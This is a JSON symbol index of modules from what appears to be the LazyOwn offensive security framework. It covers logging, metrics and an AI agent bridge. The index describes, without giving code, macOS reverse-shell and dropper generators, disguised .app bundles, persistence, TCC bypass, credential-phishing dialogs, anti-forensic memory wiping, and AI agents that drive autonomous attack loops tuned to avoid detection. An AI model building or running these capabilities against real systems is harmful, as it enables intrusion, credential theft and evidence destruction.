"symbols": [{"doc": "ANSI-colored console formatter matching core.console.py style.", "kind": "class", "line": 36, "name": "ColoredFormatter", "signature": "class ColoredFormatter(Formatter)"}, {"doc": "JSON-line formatter for structured log output.\n\nOutputs each log record as a JSON object with timestamp, level, logger,\nmessage, and optional ``correlation_id``, ``command``, and ``module``.", "kind": "class", "line": 53, "name": "JsonFormatter", "signature": "class JsonFormatter(Formatter)"}, {"doc": "Injects ``correlation_id`` from a ``ContextVar`` into log records.", "kind": "class", "line": 91, "name": "CorrelationFilter", "signature": "class CorrelationFilter(Filter)"}, {"doc": "RotatingFileHandler that degrades gracefully when the log file becomes\nunwritable mid-session.\n\n``fast_run_as_r00t.sh`` runs the framework as root while the chown\nwatcher periodically re-owns the tree to the operator UID, so the log\nfile can flip ownership and start raising ``PermissionError``. The base\n``BaseRotatingHandler.emit`` catches that failure and calls\n``handleError``, which by default prints a full traceback for every log\nrecord. This subclass overrides ``handleError`` to emit a single stderr\nnotice instead, and skips every subsequent record.", "kind": "class", "line": 103, "name": "ResilientRotatingFileHandler", "signature": "class ResilientRotatingFileHandler(RotatingFileHandler)"}, {"doc": "Set the correlation ID for the current async/task context.", "kind": "function", "line": 134, "name": "set_correlation_id", "signature": "def set_correlation_id(cid)"}, {"doc": "Return the current correlation ID, or None.", "kind": "function", "line": 139, "name": "get_correlation_id", "signature": "def get_correlation_id()"}, {"doc": "Reset the correlation ID for the current context.", "kind": "function", "line": 144, "name": "clear_correlation_id", "signature": "def clear_correlation_id()"}, {"doc": "Return a writable log directory, fixing ownership when possible.\n\nWhen ``fast_run_as_r00t.sh`` runs before the regular user, the\n``sessions/logs/`` directory can end up owned by root, blocking the\nowning user from creating log files. This helper attempts to:\n\n1. Create the directory with the current user's ownership.\n2. If it already exists but is owned by root, try to force ownership\n   back via ``sudo chown`` (non-interactive, only works with NOPASSWD).\n3. If that fails, fall back to ``/tmp/lazyown_<uid>_logs/`` and emit a\n   one-time warning so the operator knows to clean up.\n\nReturns the final (possibly fallback) log directory path.", "kind": "function", "line": 156, "name": "_ensure_log_dir_writable", "signature": "def _ensure_log_dir_writable(log_dir)"}, {"doc": "Determine whether to use JSON-line logging.\n\nChecks the ``LAZYOWN_LOG_FORMAT`` environment variable. Accepts ``json``\nas a value; anything else falls back to ColoredFormatter.", "kind": "function", "line": 235, "name": "_use_json_format", "signature": "def _use_json_format()"}, {"doc": "Configure LazyOwn's centralized logging system.\n\nArgs:\n    level: Default log level for all loggers.\n    log_dir: Directory for log files. Defaults to sessions/.\n    console: Enable console logging.\n    file: Enable file logging.\n    format_console: Format string for console output.\n    format_file: Format string for file output.\n    max_bytes: Maximum log file size before rotation.\n    backup_count: Number of rotated log files to keep.\n    module_levels: Dict mapping module names to specific log levels.", "kind": "function", "line": 244, "name": "configure", "signature": "def configure(level, log_dir, console, file, format_console, format_file, max_bytes, backup_count, module_levels)"}, {"doc": "Get a logger with the given name.\n\nEnsures all loggers use the centralized configuration without\nneeding individual basicConfig calls.\n\nArgs:\n    name: Logger name (e.g., module path).\n    level: Optional override log level.\n\nReturns:\n    Configured logger instance.", "kind": "function", "line": 328, "name": "get_logger", "signature": "def get_logger(name, level)"}, {"doc": "Set the log level for a specific logger.\n\nArgs:\n    name: Logger name.\n    level: Log level constant.", "kind": "function", "line": 357, "name": "set_level", "signature": "def set_level(name, level)"}, {"doc": "Silence all logging below WARNING level.", "kind": "function", "line": 367, "name": "set_quiet", "signature": "def set_quiet()"}, {"doc": "Enable DEBUG level logging.", "kind": "function", "line": 373, "name": "set_verbose", "signature": "def set_verbose()"}, {"doc": "Completely silence a noisy module.\n\nArgs:\n    name: Module name pattern (e.g., 'urllib3').", "kind": "function", "line": 379, "name": "silence_module", "signature": "def silence_module(name)"}, {"doc": "Reset the logging system to defaults.", "kind": "function", "line": 388, "name": "reset", "signature": "def reset()"}, {"kind": "method", "line": 39, "name": "format", "signature": "def format(self, record)"}, {"kind": "method", "line": 72, "name": "format", "signature": "def format(self, record)"}, {"kind": "method", "line": 94, "name": "filter", "signature": "def filter(self, record)"}, {"doc": "Write one record, no-op after the file has become unwritable.", "kind": "method", "line": 116, "name": "emit", "signature": "def emit(self, record)"}, {"doc": "Suppress the default per-record traceback; notify once via stderr.", "kind": "method", "line": 122, "name": "handleError", "signature": "def handleError(self, record)"}]}, {"doc": "Single edge between the autonomous loop and the LazyOwn AI stack.  The loop does not reimplement AI plumbing: this bridge is the one place where it publishes events to the unified event bus, feeds the episodic Hive Mind memory, consults the detection oracle, uses the MoE router and RL trainer for expert selection and outcome learning, and can ask SWAN for an ensemble plan. Every call is guarded and gated by an orchestrator stage toggle, so disabling a stage (or an unavailable dependency) degrades to a no-op instead of breaking the loop.", "id": "modules/loop_ai_bridge.py", "kind": "module", "label": "loop_ai_bridge.py", "language": "py", "sha256": "6161a7b83f697ad7", "symbol_count": 23, "symbols": [{"doc": "Return a process-wide instance built lazily, or None on failure.", "kind": "function", "line": 50, "name": "_singleton", "signature": "def _singleton(key, factory)"}, {"doc": "Return the orchestrator stage flag, tolerant of config failures.", "kind": "function", "line": 64, "name": "_stage", "signature": "def _stage(name, default)"}, {"doc": "Publish one loop activity to the unified bus and Hive memory.\n\nRaw stream kinds (tool output, LLM chatter) are skipped so the event\nledger stays meaningful; everything else gets a category, severity\nand the task id in its payload.", "kind": "function", "line": 74, "name": "publish_loop_event", "signature": "def publish_loop_event(task_id, worker, kind, text, severity)"}, {"doc": "Persist one meaningful activity into Hive Mind episodic memory.", "kind": "function", "line": 101, "name": "_hive_store", "signature": "def _hive_store(task_id, worker, kind, text)"}, {"doc": "Return oracle details for one command, or None when unavailable.", "kind": "function", "line": 125, "name": "annotate_detection", "signature": "def annotate_detection(command, action_category)"}, {"doc": "Return the MoE router's preferred expert for a task type, or None.", "kind": "function", "line": 149, "name": "moe_route", "signature": "def moe_route(task_type, goal)"}, {"doc": "Feed one execution outcome back to the MoE performance store.", "kind": "function", "line": 166, "name": "moe_record_outcome", "signature": "def moe_record_outcome(expert_id, task_type, reward, detection_prob)"}, {"doc": "Pick an expert with the RL policy; first candidate when unavailable.", "kind": "function", "line": 185, "name": "rl_select", "signature": "def rl_select(task_type, phase, candidates, deterministic)"}, {"doc": "Apply one Q-learning update for an executed action.", "kind": "function", "line": 207, "name": "rl_update", "signature": "def rl_update(task_type, phase, action, reward, candidates, detection_prob)"}, {"doc": "Persist the RL tables after a run.", "kind": "function", "line": 230, "name": "rl_save", "signature": "def rl_save()"}, {"doc": "Feed one executed command outcome to MoE and the RL trainer.\n\nReward is 1.0 for a productive run (output present, no execution\nfailure) and 0.0 otherwise; the action is the command's first token\nso the trainer learns which tool classes work for this engagement.", "kind": "function", "line": 249, "name": "record_step", "signature": "def record_step(task_id, worker, command, output, detection_prob)"}, {"doc": "Return True when the SWAN orchestrator can be constructed.", "kind": "function", "line": 264, "name": "swan_available", "signature": "def swan_available()"}, {"doc": "Ask SWAN for an ensemble answer; empty string when unavailable.", "kind": "function", "line": 277, "name": "swan_consult", "signature": "def swan_consult(prompt, task_type, phase, timeout)"}, {"doc": "Return whether token streaming into the activity log is enabled.\n\nReturns:\n    True when the ``llm_stream`` stage is on; the pool then asks the\n    LLM factory for incremental deltas and reports them as activity.", "kind": "function", "line": 304, "name": "stream_enabled", "signature": "def stream_enabled()"}, {"doc": "Compact status of the wired AI stack for the operator log.", "kind": "function", "line": 314, "name": "ai_snapshot", "signature": "def ai_snapshot()"}, {"kind": "function", "line": 104, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 130, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 152, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 171, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 192, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 214, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 235, "name": "_open", "signature": "def _open()"}, {"kind": "function", "line": 269, "name": "_open", "signature": "def _open()"}]}, {"doc": "Rich Live milestone panel for the autonomous loop.  Renders the orchestrator chain as persistent milestones — green done, blue in-progress (spinner), red still pending — plus intent/fact/finding counts, elapsed time and the latest activity line. The panel stays on screen when the run finishes.  Robustness rules (learned the hard way):  - No markup strings anywhere: every cell is a ``Text`` object with an explicit style, so literal ``[green]`` tags can never leak and foreign ``[brackets]`` in activity lines can never crash rendering. - Fixed panel width (100 cols) with non-wrapping cells: narrow sinks cannot corrupt the live region by wrapping. - Non-terminal sinks never use ``Live`` (Rich would degrade to printing every refresh as a full new panel): they get one compact milestone line per stage change plus the final table at stop. - All output goes through :mod:`core.safe_console`: no ANSI codes on non-tty sinks, ASCII box and markers when stdout cannot encode UTF-8. - Stage states are inferred from the task overview, never asserted.", "id": "modules/loop_progress.py", "kind": "module", "label": "loop_progress.py", "language": "py", "sha256": "9a1c74b7f126d1f2", "symbol_count": 15, "symbols": [{"doc": "Point-in-time task state polled from the session stores.", "kind": "class", "line": 80, "name": "LoopSnapshot", "signature": "class LoopSnapshot"}, {"doc": "Build a snapshot from a graph overview dict plus task record.", "kind": "function", "line": 99, "name": "snapshot_from_overview", "signature": "def snapshot_from_overview(overview, record, activity_tail, elapsed_sec)"}, {"doc": "Infer done/active/pending per chain stage from a snapshot.", "kind": "function", "line": 123, "name": "snap_to_states", "signature": "def snap_to_states(snapshot)"}, {"doc": "Strip ANSI codes and carriage returns from a transcript line.\n\nArgs:\n    line: Raw transcript chunk.\n    keep_ansi: Keep SGR color sequences so live worker output keeps\n        the colors the command emitted.\n\nReturns:\n    Printable line without carriage returns.", "kind": "function", "line": 151, "name": "sanitize_line", "signature": "def sanitize_line(line, keep_ansi)"}, {"doc": "Live milestone panel; call :meth:`refresh` from the poll loop.", "kind": "class", "line": 169, "name": "LoopProgress", "signature": "class LoopProgress"}, {"doc": "Bind the console to the real stdout captured at construction.\n\nThe loop runner redirects ``sys.stdout`` globally while the\norchestrator thread runs; a console resolving ``sys.stdout`` at\nprint time would write panel lines back into that redirect and\nspin forever. Capturing the file here (before the redirect\nstarts) keeps panel output on the operator's terminal.", "kind": "method", "line": 182, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "True only when the sink supports a real live region.", "kind": "method", "line": 195, "name": "live_mode", "signature": "def live_mode(self)"}, {"doc": "Open the Live display, or print the header in line mode.", "kind": "method", "line": 202, "name": "start", "signature": "def start(self)"}, {"doc": "Freeze the final panel on screen (both modes).", "kind": "method", "line": 229, "name": "stop", "signature": "def stop(self)"}, {"doc": "Re-render milestones from a fresh snapshot (thread-safe).", "kind": "method", "line": 246, "name": "refresh", "signature": "def refresh(self, snapshot)"}, {"doc": "Print a transcript line above the live panel, colors preserved.", "kind": "method", "line": 268, "name": "emit", "signature": "def emit(self, line)"}, {"doc": "Plain-text header for line mode.", "kind": "method", "line": 282, "name": "_header", "signature": "def _header(self)"}, {"doc": "One compact line per stage change for line mode.", "kind": "method", "line": 289, "name": "_milestone_line", "signature": "def _milestone_line(self, snapshot, states, current)"}, {"doc": "Plain-text footer (never parses activity content as markup).", "kind": "method", "line": 306, "name": "_footer", "signature": "def _footer(self, snapshot, elapsed)"}, {"doc": "Build the milestone panel for a snapshot (Text cells only).", "kind": "method", "line": 324, "name": "_render", "signature": "def _render(self, snapshot)"}]}, {"doc": "macOS payload generation — .app bundles, persistence, TCC bypass, Swift/ObjC.  Generates macOS-native payloads: .app bundle wrappers, LaunchDaemon/LaunchAgent persistence, TCC database manipulation payloads, osascript droppers, Swift/ObjC reverse shells, and AppleScript phishing dialogs. All payloads derive connection parameters from payload.json.", "id": "modules/macos_payloads.py", "kind": "module", "label": "macos_payloads.py", "language": "py", "sha256": "a2cc2453b2457d2f", "symbol_count": 16, "symbols": [{"doc": "Configuration for macOS payload generation.\n\nAttributes:\n    lhost: Attacker IP or hostname for reverse connections.\n    lport: Listener port.\n    payload_type: generated payload type (reverse_shell, bind_shell, c2_beacon, dropper).\n    persistence_method: How to persist (launchdaemon, cron, login_item, etc.).\n    app_name: Display name for .app bundles.\n    bundle_id: Reverse-DNS bundle identifier.\n    tcc_bypass: Attempt to request/hijack TCC permissions.\n    codesign: Attempt ad-hoc codesigning of the generated payload.\n    obfuscate: Apply base64 + eval obfuscation to shell scripts.\n    elevate_perms: Craft payload to check for and exploit sudo/priv escalation.", "kind": "class", "line": 60, "name": "MacOSPayloadConfig", "signature": "class MacOSPayloadConfig"}, {"doc": "Generate macOS-native payloads for initial access, persistence, and evasion.\n\nProduces .app bundles, LaunchDaemon/Agent plists, TCC manipulation scripts,\nAppleScript phishing dialogs, and Swift/ObjC stagers.\n\nAttributes:\n    config: Payload configuration.\n    output_dir: Directory for generated artifacts.", "kind": "class", "line": 88, "name": "MacOSPayloadFactory", "signature": "class MacOSPayloadFactory"}, {"kind": "method", "line": 111, "name": "__init__", "signature": "def __init__(self, config, output_dir)"}, {"kind": "method", "line": 116, "name": "_obfuscate_shell", "signature": "def _obfuscate_shell(self, code)"}, {"kind": "method", "line": 122, "name": "_reverse_shell_command", "signature": "def _reverse_shell_command(self)"}, {"doc": "Generate a macOS .app bundle with embedded reverse shell.\n\nCreates a minimal .app directory structure with Info.plist,\nexecutable script, and optional code signing. The .app appears\nas a legitimate macOS application.\n\nReturns:\n    Path to the generated .app bundle.", "kind": "method", "line": 137, "name": "generate_app_bundle", "signature": "def generate_app_bundle(self)"}, {"doc": "Attempt ad-hoc code signing on the generated .app bundle.\n\nArgs:\n    app_dir: Path to the .app bundle.\n\nReturns:\n    True if signing succeeded, False otherwise.", "kind": "method", "line": 192, "name": "_adho_codesign", "signature": "def _adho_codesign(self, app_dir)"}, {"doc": "Generate a LaunchDaemon or LaunchAgent plist for persistence.\n\nReturns:\n    Dict with 'plist_path' and 'script_path' for the persistence artifact.", "kind": "method", "line": 212, "name": "generate_launchd_persistence", "signature": "def generate_launchd_persistence(self)"}, {"doc": "Generate a TCC bypass script targeting common permissions.\n\nExploits TCC database (TCC.db) manipulation, FDA (Full Disk Access)\nrequest dialogs, and SSH access to bypass transparency consent.\n\nReturns:\n    Shell script for TCC bypass.", "kind": "method", "line": 268, "name": "generate_tcc_bypass", "signature": "def generate_tcc_bypass(self)"}, {"doc": "Generate an AppleScript-based dropper that downloads and executes a stage.\n\nUses osascript with minimal shell interaction to evade shell-based\ndetection while downloading a second stage via curl.\n\nReturns:\n    AppleScript dropper source.", "kind": "method", "line": 314, "name": "generate_osascript_dropper", "signature": "def generate_osascript_dropper(self)"}, {"doc": "Generate a Swift reverse shell stager.\n\nCompiles to a native Mach-O binary with no external dependencies.\nUses Foundation for socket I/O — requires Xcode or swiftc.\n\nReturns:\n    Swift source code.", "kind": "method", "line": 335, "name": "generate_swift_stager", "signature": "def generate_swift_stager(self)"}, {"doc": "Generate all available macOS persistence scripts.\n\nReturns:\n    Dict mapping persistence method name to shell script content.", "kind": "method", "line": 398, "name": "generate_persistence_scripts", "signature": "def generate_persistence_scripts(self)"}, {"doc": "Generate an AppleScript credential phishing dialog.\n\nPresents a system-looking password prompt capturing credentials\nvia osascript with GUI dialog.\n\nReturns:\n    AppleScript for credential harvesting.", "kind": "method", "line": 447, "name": "generate_phishing_dialog", "signature": "def generate_phishing_dialog(self)"}, {"doc": "Generate all macOS payload artifacts.\n\nReturns:\n    Dict with all generated payloads keyed by type.", "kind": "method", "line": 470, "name": "generate_all", "signature": "def generate_all(self)"}, {"doc": "Return the list of known TCC service identifiers.", "kind": "method", "line": 517, "name": "list_tcc_services", "signature": "def list_tcc_services()"}, {"doc": "Return the list of available persistence methods for macOS.", "kind": "method", "line": 522, "name": "list_persistence_methods", "signature": "def list_persistence_methods()"}]}, {"id": "modules/mario.py", "kind": "module", "label": "mario.py", "language": "py", "sha256": "c655c33615731241", "symbol_count": 1, "symbols": [{"kind": "function", "line": 105, "name": "check_collision", "signature": "def check_collision(x, y, layer)"}]}, {"doc": "LazyOwn MCP Agent Bridge ======================== Allows Claude (via MCP) to delegate tasks to internal AI agents (Groq / Ollama) running inside LazyOwn, without blocking the MCP server.  Architecture: Claude → lazyown_run_agent(goal, model) → spawns AgentBridgeWorker in a thread → writes live log to sessions/agents/<id>.jsonl Claude → lazyown_agent_status(id)   → progress + last action Claude → lazyown_agent_result(id)   → final answer  Supported backends: - \"groq\"   : GroqModel via Groq SDK  (requires GROQ_API_KEY) - \"ollama\" : OllamaModel via OpenAI-compatible SDK → localhost:11434/v1", "id": "modules/mcp_agent_bridge.py", "kind": "module", "label": "mcp_agent_bridge.py", "language": "py", "sha256": "622e5478500cfff8", "symbol_count": 21, "symbols": [{"doc": "Return (client, model_name) for the given backend.\nGroq: returns Groq SDK client.\nOllama: returns None (OllamaReActWorker uses requests directly).", "kind": "function", "line": 39, "name": "_make_client", "signature": "def _make_client(backend)"}, {"doc": "Call Ollama /api/chat and return the assistant text.\nHandles reasoning models (qwen3, deepseek-r1) that put output in\nmessage.content or the top-level 'thinking' field.\nUses non-streaming for simplicity with generous timeout.", "kind": "function", "line": 92, "name": "_ollama_chat", "signature": "def _ollama_chat(model, messages, max_tokens, timeout)"}, {"kind": "function", "line": 141, "name": "_agent_file", "signature": "def _agent_file(agent_id)"}, {"kind": "function", "line": 145, "name": "_write_log", "signature": "def _write_log(agent_id, entry)"}, {"kind": "function", "line": 150, "name": "_read_log", "signature": "def _read_log(agent_id)"}, {"doc": "Public: returns current status dict for an agent.", "kind": "function", "line": 163, "name": "get_agent_status", "signature": "def get_agent_status(agent_id)"}, {"doc": "Public: returns final result + full action log.", "kind": "function", "line": 188, "name": "get_agent_result", "signature": "def get_agent_result(agent_id)"}, {"doc": "List recent agents sorted by start time.", "kind": "function", "line": 211, "name": "list_agents", "signature": "def list_agents(limit)"}, {"kind": "class", "line": 234, "name": "GroqAgentWorker", "signature": "class GroqAgentWorker"}, {"kind": "class", "line": 367, "name": "OllamaReActWorker", "signature": "class OllamaReActWorker"}, {"doc": "Dispatches to GroqAgentWorker or OllamaReActWorker based on backend.", "kind": "class", "line": 468, "name": "AgentBridgeWorker", "signature": "class AgentBridgeWorker"}, {"doc": "Start an agent in a background thread.\nReturns the agent_id for polling.", "kind": "function", "line": 508, "name": "start_agent", "signature": "def start_agent(goal, backend, lazyown_runner_fn, max_iterations)"}, {"kind": "method", "line": 235, "name": "__init__", "signature": "def __init__(self, agent_id, goal, client, model, run_cmd, max_iter)"}, {"kind": "method", "line": 248, "name": "_tools", "signature": "def _tools(self)"}, {"kind": "method", "line": 264, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 368, "name": "__init__", "signature": "def __init__(self, agent_id, goal, client, model, run_cmd, max_iter)"}, {"doc": "Extract (action, answer) from ReAct-format response.", "kind": "method", "line": 381, "name": "_parse", "signature": "def _parse(self, text)"}, {"kind": "method", "line": 389, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 471, "name": "__init__", "signature": "def __init__(self, agent_id, goal, backend, run_cmd, max_iterations)"}, {"kind": "method", "line": 478, "name": "run", "signature": "def run(self)"}, {"kind": "function", "line": 531, "name": "dummy_runner", "signature": "def dummy_runner(cmd)"}]}, {"doc": "Memory artifact cleanup — process memory wipe, environment variable scrub, clipboard clear.  Provides memory-level artifact removal to complement disk-level forensic cleaning. Covers process memory overwrite before exit, command history clearing in running processes, environment variable scrubbing, and clipboard/credential cache clearing.  Designed for in-process cleanup on beacon exit to prevent memory forensics from recovering attacker tools, commands, or credentials.", "id": "modules/memory_cleaner.py", "kind": "module", "label": "memory_cleaner.py", "language": "py", "sha256": "bd22c96da2ab06f7", "symbol_count": 7, "symbols": [{"doc": "Configuration for memory artifact cleanup operations.\n\nAttributes:\n    target_platform: windows, linux, or macos.\n    overwrite_stack: Overwrite stack memory before exit.\n    clear_heap: Free and zero-fill heap allocations.\n    scrub_environment: Clear environment variables with sensitive data.\n    clear_credentials: Wipe credential stores (DPAPI, keychain, keyring).\n    clear_clipboard: Clear clipboard contents.\n    clear_ntlm_cache: Remove cached NTLM hashes from memory.\n    clear_kerberos_tickets: Purge all Kerberos tickets from memory.\n    kill_sensitive_processes: Terminate processes that cache sensitive data.\n    clean_psreadline: Clear PowerShell PSReadline history from memory.", "kind": "class", "line": 22, "name": "MemoryCleanerConfig", "signature": "class MemoryCleanerConfig"}, {"doc": "Generate memory artifact cleanup commands for post-operation stealth.\n\nProduces platform-specific commands for wiping in-memory artifacts:\nprocess memory, environment variables, credential caches, clipboard\ndata, and Kerberos tickets.\n\nAttributes:\n    config: MemoryCleanerConfig for target platform and artifact selection.", "kind": "class", "line": 50, "name": "MemoryCleaner", "signature": "class MemoryCleaner"}, {"kind": "method", "line": 61, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Generate Windows memory artifact cleanup commands.\n\nReturns:\n    Dict with PowerShell and native commands for memory cleanup.", "kind": "method", "line": 64, "name": "windows_memory_cleanup", "signature": "def windows_memory_cleanup(self)"}, {"doc": "Generate Linux memory artifact cleanup commands.\n\nReturns:\n    Dict with bash commands for Linux memory cleanup.", "kind": "method", "line": 151, "name": "linux_memory_cleanup", "signature": "def linux_memory_cleanup(self)"}, {"doc": "Generate macOS memory artifact cleanup commands.\n\nReturns:\n    Dict with zsh commands for macOS memory cleanup.", "kind": "method", "line": 206, "name": "macos_memory_cleanup", "signature": "def macos_memory_cleanup(self)"}, {"doc": "Generate an on-exit cleanup script for beacons.\n\nWhen a beacon is about to terminate, this script runs to clean\nall in-memory artifacts before process exit.\n\nReturns:\n    Dict with per-platform on-exit scripts.", "kind": "method", "line": 255, "name": "generate_on_exit_script", "signature": "def generate_on_exit_script(self)"}]}, {"doc": "memory_store.py — Episodic memory for the LazyOwn auto_loop.  Stores (command, output, findings, host, tool, success) per session and retrieves relevant past experiences via SQLite FTS5 keyword search. Optionally uses numpy for cosine similarity when available.", "id": "modules/memory_store.py", "kind": "module", "label": "memory_store.py", "language": "py", "sha256": "e1514d8961e809e1", "symbol_count": 33, "symbols": [{"kind": "class", "line": 81, "name": "MemoryEntry", "signature": "class MemoryEntry"}, {"kind": "class", "line": 94, "name": "StorageBackend", "signature": "class StorageBackend(ABC)"}, {"kind": "function", "line": 114, "name": "_row_to_entry", "signature": "def _row_to_entry(row)"}, {"kind": "class", "line": 129, "name": "SQLiteBackend", "signature": "class SQLiteBackend(StorageBackend)"}, {"kind": "class", "line": 234, "name": "MemoryStore", "signature": "class MemoryStore"}, {"kind": "function", "line": 303, "name": "get_memory_store", "signature": "def get_memory_store()"}, {"kind": "function", "line": 312, "name": "remember", "signature": "def remember(session_id, host, tool, command, output, findings, success)"}, {"kind": "function", "line": 324, "name": "recall", "signature": "def recall(query, top_k)"}, {"kind": "function", "line": 328, "name": "_print_entries", "signature": "def _print_entries(entries)"}, {"kind": "function", "line": 341, "name": "_cli", "signature": "def _cli()"}, {"kind": "method", "line": 96, "name": "save", "signature": "def save(self, entry)"}, {"kind": "method", "line": 99, "name": "search", "signature": "def search(self, query, top_k)"}, {"kind": "method", "line": 102, "name": "by_host", "signature": "def by_host(self, host, top_k)"}, {"kind": "method", "line": 105, "name": "by_service", "signature": "def by_service(self, service, top_k)"}, {"kind": "method", "line": 108, "name": "all_entries", "signature": "def all_entries(self, limit)"}, {"kind": "method", "line": 111, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 130, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"kind": "method", "line": 136, "name": "_connect", "signature": "def _connect(self)"}, {"kind": "method", "line": 145, "name": "save", "signature": "def save(self, entry)"}, {"kind": "method", "line": 172, "name": "_fetch", "signature": "def _fetch(self, sql, params)"}, {"kind": "method", "line": 177, "name": "search", "signature": "def search(self, query, top_k)"}, {"kind": "method", "line": 189, "name": "by_host", "signature": "def by_host(self, host, top_k)"}, {"kind": "method", "line": 200, "name": "by_service", "signature": "def by_service(self, service, top_k)"}, {"kind": "method", "line": 212, "name": "all_entries", "signature": "def all_entries(self, limit)"}, {"kind": "method", "line": 222, "name": "stats_raw", "signature": "def stats_raw(self)"}, {"kind": "method", "line": 229, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 237, "name": "__init__", "signature": "def __init__(self, backend)"}, {"kind": "method", "line": 240, "name": "remember", "signature": "def remember(self, session_id, host, tool, command, output, findings, success)"}, {"kind": "method", "line": 267, "name": "recall", "signature": "def recall(self, query, top_k)"}, {"kind": "method", "line": 270, "name": "recall_by_host", "signature": "def recall_by_host(self, host, top_k)"}, {"kind": "method", "line": 273, "name": "recall_for_service", "signature": "def recall_for_service(self, service_name, top_k)"}, {"kind": "method", "line": 276, "name": "stats", "signature": "def stats(self)"}, {"kind": "method", "line": 284, "name": "export_finetuning_dataset", "signature": "def export_finetuning_dataset(self, path)"}]}, {"doc": "LazyOwn metrics surface.  Two complementary subsystems live here:  * :class:`MetricsRegistry` (with the :data:`REGISTRY` singleton) — an in-memory Prometheus-style counter registry used by the C2 stack to expose live operational counters. Kept for backwards compatibility with ``lazyc2.py`` and ``modules.c2_builder``. * :class:`MetricsRecorder` (with the :func:`get_recorder` singleton) — a durable append-only telemetry log written to ``sessions/metrics.jsonl``. Every command the operator executes through the cmd2 shell (and any other caller that opts in) is recorded so post-hoc analysis can answer \"which commands fail most\", \"what is the p95 duration of nmap\" or \"where does the autonomous daemon stall\".  The recorder splits responsibilities to keep each class small:  * :class:`MetricsWriter` only knows how to append a record to disk. * :class:`MetricsAggregator` only knows how to compute summary statistics. * :class:`MetricsRecorder` composes both behind a single public API.  Appends use a process-wide :class:`threading.Lock` so concurrent post-command hooks (cmd2, autonomous daemon, MCP tool) cannot interleave half-written lines. Writes are line-atomic but not durable across power loss; that is an acceptable trade-off for telemetry data.", "id": "modules/metrics.py", "kind": "module", "label": "metrics.py", "language": "py", "sha256": "8ed1681adc53ed19", "symbol_count": 24, "symbols": [{"doc": "Thread-safe in-memory counter registry used by the C2 stack.\n\nCounters are addressed by a name and an optional label dictionary; both\npieces compose to form a series key. The registry can render itself in\nPrometheus exposition format when a scraper hits the C2 metrics\nendpoint.", "kind": "class", "line": 54, "name": "MetricsRegistry", "signature": "class MetricsRegistry"}, {"doc": "Render a label dictionary as a deterministic Prometheus key fragment.\n\nArgs:\n    labels: Label dictionary, possibly empty.\n\nReturns:\n    A comma-separated ``key=\"value\"`` string, or the empty string when\n    no labels are provided.", "kind": "function", "line": 126, "name": "_labels_key", "signature": "def _labels_key(labels)"}, {"doc": "One entry in ``sessions/metrics.jsonl``.\n\nAttributes:\n    ts: ISO-8601 UTC timestamp captured at command completion.\n    command: Command verb as typed by the operator (first token).\n    args: Remaining argument string. May be empty.\n    duration_ms: Wall-clock duration in milliseconds. Non-negative.\n    success: Heuristic success flag derived from the caller's exit code.\n    exit_code: Underlying process exit code. ``None`` when not measurable.\n    source: Coarse origin tag (e.g. ``\"cli\"``, ``\"daemon\"``, ``\"mcp\"``).", "kind": "class", "line": 146, "name": "MetricRecord", "signature": "class MetricRecord"}, {"doc": "Thread-safe append-only writer for :data:`METRICS_FILE`.\n\nThe writer owns the lock and the file handle lifecycle but never\ndecides *what* to write; callers compose a :class:`MetricRecord` and\npass it in.", "kind": "class", "line": 181, "name": "MetricsWriter", "signature": "class MetricsWriter"}, {"doc": "Pure aggregation over an in-memory list of records.\n\nSeparated from the writer so the same statistics can be computed over\na test fixture without touching disk.", "kind": "class", "line": 226, "name": "MetricsAggregator", "signature": "class MetricsAggregator"}, {"doc": "Compose a :class:`MetricsWriter` and :class:`MetricsAggregator`.\n\nOperators interact only with this class through the module-level\nsingleton returned by :func:`get_recorder`.", "kind": "class", "line": 332, "name": "MetricsRecorder", "signature": "class MetricsRecorder"}, {"doc": "Return the process-wide :class:`MetricsRecorder` singleton.\n\nThe first call constructs a recorder bound to :data:`METRICS_FILE`.\nSubsequent calls return the same instance. Thread-safe.", "kind": "function", "line": 452, "name": "get_recorder", "signature": "def get_recorder()"}, {"doc": "Replace the module-level recorder with a fresh instance.\n\nIntended exclusively for tests that need to redirect the JSONL path.\n\nArgs:\n    writer: Optional writer to inject. When omitted a default writer\n        against :data:`METRICS_FILE` is used.\n\nReturns:\n    The newly installed recorder.", "kind": "function", "line": 466, "name": "reset_recorder_for_tests", "signature": "def reset_recorder_for_tests(writer)"}, {"doc": "Create an empty registry with its own lock.", "kind": "method", "line": 63, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Increment the named counter for the given labels.\n\nArgs:\n    name: Counter name.\n    labels: Optional dictionary of label values forming a series.\n    value: Amount to add; defaults to ``1``.", "kind": "method", "line": 69, "name": "inc", "signature": "def inc(self, name, labels, value)"}, {"doc": "Return the current value of a counter.\n\nArgs:\n    name: Counter name.\n    labels: Optional label dictionary identifying the series.\n\nReturns:\n    The current integer value (``0`` when the series has never\n    been incremented).", "kind": "method", "line": 87, "name": "get", "signature": "def get(self, name, labels)"}, {"doc": "Render every counter in Prometheus text exposition format.\n\nReturns:\n    A newline-delimited Prometheus payload ready to be served as\n    ``text/plain``.", "kind": "method", "line": 107, "name": "prometheus_text", "signature": "def prometheus_text(self)"}, {"doc": "Return the record as a JSON-serialisable dictionary.", "kind": "method", "line": 167, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Initialise the writer.\n\nArgs:\n    path: Destination JSONL file. Parent directory is created on\n        first append so empty sessions work too.", "kind": "method", "line": 189, "name": "__init__", "signature": "def __init__(self, path)"}, {"doc": "Return the JSONL destination path.", "kind": "method", "line": 201, "name": "path", "signature": "def path(self)"}, {"doc": "Append a single record to disk.\n\nFailures are logged at debug level and swallowed: telemetry must\nnever break the calling command.\n\nArgs:\n    record: The record to persist.", "kind": "method", "line": 206, "name": "append", "signature": "def append(self, record)"}, {"doc": "Return the nearest-rank percentile of *values* in milliseconds.\n\nArgs:\n    values: Monotonically increasing list of integer 